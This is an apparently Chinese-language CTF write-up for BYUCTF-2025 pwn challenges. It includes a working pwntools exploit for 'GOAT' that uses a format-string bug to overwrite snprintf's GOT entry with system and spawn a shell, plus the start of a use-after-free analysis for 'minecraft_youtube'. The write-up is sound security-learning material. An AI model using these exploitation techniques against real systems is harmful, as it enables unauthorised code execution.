 ```yaml
---
title: 【BYUCTF-2025】PWN WriteUp
authors: [nova]
date: 2025-05-23
---
```


难得写几道。

> Attachments https://github.com/BYU-CSA/BYUCTF-2025?tab=readme-ov-file



## GOAT

![image-20250523000531559](https://oss.nova.gal/img/image-20250523000531559.png)

简单的 fmtstr 题，partial RELRO，直接改 got 表。要爆破一位，把 snprintf 改成 system 即可。

注意这个它会写入一点点内容，所以要用到 fmtstr_payload 里的 numwritten

```python
from pwno import *


# Brute force

context.terminal = ["tmux", "splitw", "-h"]

sh = gen_sh()
dbg("b printf")

payload = fmtstr_payload(
    8,
    {elf.got["snprintf"]: p16(0x4400)},
    write_size="short",
    numbwritten=len("Are you sure? You said:\n"),
)
sla(b"What's your name? ", payload)

sla(b"\n", "/bin/sh\x00")
ia()
```

## minecraft_youtube

显然，只要让 user->magic = 0x1337 即可。

观察可以发现 user_t 和 nametag 是一样大小的，意味着我们很有可能可以通过 free + malloc 的方式重用这些 chunk。

![image-20250523001903872](https://oss.nova.gal/img/image-20250523001903872.png)

在 logout 函数里，我们看到了 free 函数
